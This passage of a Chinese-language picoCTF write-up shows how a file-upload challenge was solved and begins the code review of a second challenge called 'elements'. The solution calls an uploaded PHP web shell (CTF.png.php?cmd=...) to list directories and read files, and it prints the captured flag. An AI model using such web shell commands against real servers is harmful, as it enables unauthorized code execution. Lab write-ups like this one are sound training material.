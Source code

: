 #### 4. RCE & Find flag
```URL
http://atlas.picoctf.net:55476/uploads/CTF.png.php?cmd=ls /
http://atlas.picoctf.net:55476/uploads/CTF.png.php?cmd=find%20/%20-type%20f%20-name%20flag*
```

![image](https://hackmd.io/_uploads/BkquackAT.png)
> 找不到

```URL
http://atlas.picoctf.net:55476/uploads/CTF.png.php?cmd=cat%20../MQZWCYZWGI2WE.txt
```
![image](https://hackmd.io/_uploads/ry7ApqyRa.png)
> 最後在 ../MQZWCYZWGI2WE.txt 找到

### GET FLAG
**FLAG:picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}**

## elements
![image](https://hackmd.io/_uploads/ByY8-s10a.png)
http://rhea.picoctf.net:59823/

![image](https://hackmd.io/_uploads/HJy5bjy0T.png)

### elements Solution
### Code Review
● index.js
```javascript=
// this entire thing is basically a knockoff of infinite craft
// https://neal.fun/infinite-craft/

const onlineHost = 'https://elements.attest.lol'; //主機位址

const buttons = document.getElementById('elements'); //取得來自HTML的elements

// these were all generated by ai, yes they have some really weird results
```